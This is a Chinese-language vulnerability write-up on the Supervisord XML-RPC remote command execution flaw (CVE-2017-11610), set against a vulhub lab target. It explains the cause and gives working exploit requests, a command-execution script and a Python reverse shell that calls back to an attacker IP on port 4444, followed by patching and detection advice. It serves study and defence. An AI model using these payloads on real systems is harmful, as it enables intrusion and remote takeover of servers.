




# 漏洞名称：Supervisord 远程命令执行漏洞


---

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

---

Supervisord是Supervisor的服务端程序，是一款用Python语言开发的管理后台应用（服务）的工具，方便运维人员使用图形化界面进行管理。

Supervisord曾曝出了一个需认证的远程命令执行漏洞（CVE-2017-11610）。通过POST请求向Supervisord管理界面提交恶意数据，可以获取服务器操作权限，带来严重的安全风险。

---

### 漏洞危害

远程攻击者可借助特制的XML-RPC请求利用该漏洞执行任意命令。

---

### 影响范围

Supervisord 3.1.2 <= Version <=Supervisord 3.3.2

---

## 漏洞原理

Supervisor的控制实际上就是一个C/S以RPC协议（远程过程调用协议）的通信的过程。XML-RPC server是其中的一个XML-RPC服务器，C端通过RPC协议可以在Server端执行某个函数，并得到返回结果。那么如果Client端执行了Server端预料之外的函数（如`os.system`），那么就会导致漏洞的产生。

一个安全的RPC协议，会有一个函数名的映射，也就是说Client端只能调用在白名单之中的部分函数，并且这个“函数”只是真正函数的一个映射。而我们来看看3.3.2版本中Supervisord是如何处理RPC调用的：

```python
class supervisor_xmlrpc_handler(xmlrpc_handler):
    ...
    def call(self, method, params):
        return traverse(self.rpcinterface, method, params)
def traverse(ob, method, params):
    path = method.split('.')
    for name in path:
        if name.startswith('_'):
            # security (don't allow things that start with an underscore to
            # be called remotely)
            raise RPCError(Faults.UNKNOWN_METHOD)
        ob = getattr(ob, name, None)
        if ob is None:
            raise RPCError(Faults.UNKNOWN_METHOD)
    try:
        return ob(*params)
    except TypeError:
        raise RPCError(Faults.INCORRECT_PARAMETERS)
```

`supervisor_xmlrpc_handlerl`类用于处理RPC请求，其call方法就是真正执行远程调用的函数。在call方法中调用了traverse函数，跟进这个函数，我们发现他的逻辑是这样：

1. 将method用点号分割成数组path
2. 遍历这个数组，每次获得一个name
3. 如果name不以下划线开头，则获取ob对象的name属性，其作为新的ob对象
4. 遍历完成后获得最终的ob对象并调用

所以，实际上这个函数最后达成的效果就是：**初始ob对象下的任意public方法，包括它的所有递归子对象的任意public方法，都可以被调用。**而此处，ob对象即为`self.rpcinterface`，官方开发者可能认为可调用的方法只限制在这个对象内部，所以没有做特别严格的白名单限制。

然而在`self.rpcinterface.supervisor.supervisord.options`对象下，有一个方法`execve`，其相当于直接调用了系统的`os.execve`函数，是可以直接执行任意命令的：

```python
class ServerOptions(Options):
    ...    
    def execve(self, filename, argv, env):
        return os.execve(filename, argv, env)
```

---

## 漏洞利用


---

### 靶机环境

vulhub/supervisor/CVE-2017-11610

---

### 利用方式 1

> https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html

---

#### 利用过程

使用supervisor.supervisord.options.warnings.linecache.os.system方法，可以执行系统命令，然后利用

```
POST /RPC2 HTTP/1.1
Host: 192.168.1.189:9001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 275
<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```



可以看到靶机中新建文件成功：



上面poc没有回显，可以将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来，如下：。

```python
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```



使用supervisor.supervisord.options.warnings.linecache.os.system方法，首先在攻击机监听4444端口，等待靶机反弹shell。

发送payload如下：

```
POST /RPC2 HTTP/1.1
Host: 192.168.1.189:9001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 428

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.182.234.169',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
</string>
</param>
</params>
</methodCall>
```

效果为利用`supervisor.supervisord.options.warnings.linecache.os.system`方法通过python程序反弹shell，连接到攻击机的4444端口。



---

### 利用方式 2

```
POST /RPC2 HTTP/1.1
Host: 192.168.1.189:9001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 439

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/local/bin/python</string>
</param>
<param>
<array>
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
<value><string>import os;os.system('touch /tmp/success');</string></value>
</data>
</array>
</param>
<param>
<struct>
</struct>
</param>
</params>
</methodCall>
```

这个`self.rpcinterface.supervisor.supervisord.options.execve`其实有些问题，Python的`os.execve`函数会使用新进程取代现有的进程。也就是说，这里会导致Supervisord本身退出。

基于Docker容器的Supervisord（如Vulhub里这个靶场），如果基础进程Supervisord被退出，那么将导致整个容器被退出，即使我们执行了任意命令，我们获得的权限也是转瞬即逝的。

---


## 威胁防护建议

---

### 用户处置建议

1. 升级Supervisord
2. 端口访问控制
3. 设置复杂RPC密码

---

### 安全产品检测建议

1. 检测漏洞利用链`self.rpcinterface.supervisor.supervisord.options.execve`

2. 检测漏洞利用链`supervisor.supervisord.options.warnings.linecache.os.system`

